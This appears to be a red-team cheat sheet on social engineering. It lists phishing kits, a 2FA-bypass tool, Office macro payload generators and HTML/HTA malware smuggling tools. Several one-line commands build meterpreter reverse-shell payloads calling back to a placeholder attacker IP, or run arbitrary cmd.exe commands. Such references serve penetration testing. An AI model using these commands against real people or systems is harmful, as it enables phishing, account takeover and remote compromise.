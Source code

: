 # Social Engineering

## General

#### Social engineering toolkit (seh) (https://github.com/trustedsec/social-engineer-toolkit)
Clones sites for phishing and more.

#### ReelPhish (https://github.com/fireeye/ReelPhish)
Bypasses 2FA.

#### GoPhish (https://getgophish.com)
Automated phishing mails. There is also phishing-frenzy (ruby) and king-phisher (python).

## Office Macros
* empire has a macro stager `windows/macro`
* unicorn (https://github.com/trustedsec/unicorn) can create payloads for meterpreter `./unicorn.py windows/meterpreter/reverse_https <attackerip> 443 macro` and start handler with `msfconsole -r ./unicorn.rc`
* automated via luckystrike (https://github.com/curi0usJack/luckystrike)
* VBad (https://github.com/Pepitoh/VBad) creates heavily obfuscated macro payloads
* there is also DDE Attacks (mostly patched) via empire `windows/macroless_msword`

## Webpages
* EmbedInHTML hides Malware in Websites, downloads payload, executes it, deletes traces (https://github.com/Arno0x/EmbedInHTML) `python embedInHTML.py -k keypassshere -f meterpreter.xll -o index.html -w`
* for hta payloads (https://github.com/nccgroup/demiguise) `python demiguise.py -k hello -c "cmd.exe /c <pscommand>" -o Outlook.Application -o test.hta`
* jenkins exploit via (https://github.com/cheetz/generateJenkinsExploit)

tags: #social_engineering 
